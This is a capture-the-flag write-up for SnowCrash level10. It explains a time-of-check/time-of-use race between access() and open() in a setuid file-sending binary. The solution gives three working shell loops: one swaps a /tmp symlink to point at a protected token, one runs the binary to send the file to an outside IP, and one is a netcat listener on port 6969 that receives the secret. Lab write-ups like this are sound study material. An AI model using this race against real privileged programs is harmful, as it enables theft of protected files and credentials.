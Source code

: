 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token to see if it failed because of `token` in the file name:

```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
`Level10` seems to check a user's rights, instead of a `strstr`on the name of file.</br>
Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

`level10` does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

`level10` seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do we listen to a port?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html

Theorical steps:
- Do a symlink again and again (in a loop)
- launch `level10` in a loop
- Hope that level10 will accept our file with access
- Then the symlink will occure
- Then level10 will open our modified file and write it on port 6969
- listen to the port to see what is happening and maybe catch the token

# Solution

On a first terminal connected with ssh let's create the file that is going to be the symlink (`readlink -f token` to know the true path of token file):
```bash
while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done
```
We need to suppress and create a new file each time or the symlink will apply on `tmp/final` and will not pass the `access()` check again.

- On a second ssh terminal let's execute level10 in a loop: 
```bash 
while true; do (./level10 /tmp/final 10.11.200.134); done
```

- On a third terminal, we can listen to the port 6969 with the netcat command: 
```bash
while true; do nc -l 6969 ;done
```

